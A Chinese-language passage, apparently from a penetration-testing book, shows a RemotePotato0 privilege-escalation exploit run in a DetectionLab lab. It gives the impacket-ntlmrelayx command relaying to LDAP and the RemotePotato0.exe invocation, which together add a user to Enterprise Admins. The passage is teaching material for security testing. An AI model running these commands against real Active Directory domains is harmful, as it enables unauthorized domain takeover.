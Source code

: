 +   攻击者需要在计算机上加入“远程桌面管理”组

+   “域管理员”组的成员必须在该机器上以交互方式登录

在 GOADv2 实验室中，此漏洞不可利用，然而，在 DetectionLab 中它仍然有效。漏洞利用代码可在此处获取[10]。我使用了来自 DetectionLab 的域控制器和交换服务器。在一台 Kali 机器上，我启动了**ntlmrelayx**，然后通过 PSRemote 会话在交换服务器上运行了漏洞利用：

```
sudo impacket-ntlmrelayx -t ldap://192.168.56.102 --no-wcf-server --escalate-user vinegrep
```

然后，我在交换服务器上运行了漏洞利用：

```
RemotePotato0.exe -m 0 -r 192.168.56.100 -p 9998 -s 1
```

漏洞利用的结果见下图：

![图 6.7 – RemotePotato0 漏洞利用执行](img/B18964_06_07.jpg)

图 6.7 – RemotePotato0 漏洞利用执行

结果，我们可以看到我们的用户已被添加到**企业管理员组**：
